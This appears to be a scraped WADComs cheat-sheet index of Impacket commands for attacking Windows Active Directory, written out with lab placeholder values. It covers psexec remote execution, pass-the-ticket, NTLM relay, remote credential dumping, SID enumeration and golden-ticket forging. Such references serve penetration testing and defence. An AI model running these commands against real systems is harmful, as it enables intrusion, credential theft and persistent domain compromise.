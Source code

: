[python3 psexec.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-PsExec/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#Password)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-PsExec/#Windows)

[export KRB5CCNAME=/full/path/to/john.ccache; python3 psexec.py test.local/john@10.10.10.1 -k -no-pass](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#Username)
 -   [TGS](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#TGS)
 -   [SMB](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#SMB)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-PsExec-PassTheTicket/#Windows)

[python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/#Exploitation)
 -   [No Creds](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/#No_Creds)
 -   [NTLM](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/#NTLM)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-NTLMRelayX/#Windows)

[python3 mimikatz.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Exploitation)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Password)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-Mimikatz/#Windows)

[python3 lookupsid.py test.local/john:password123@10.10.10.1](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/)
-   [Enumeration](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#Enumeration)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#Username)
 -   [Password](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#Password)
 -   [RPC](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#RPC)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-LookUpSID/#Windows)

[python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/)
-   [Exploitation](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Exploitation)
 -   [Persistence](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Persistence)
 -   [Username](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Username)
 -   [Hash](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Hash)
 -   [Kerberos](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Kerberos)
 -   [Linux](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Linux)
 -   [Windows](https://wadcoms.github.io/wadcoms/Impacket-GoldenTicket/#Windows)
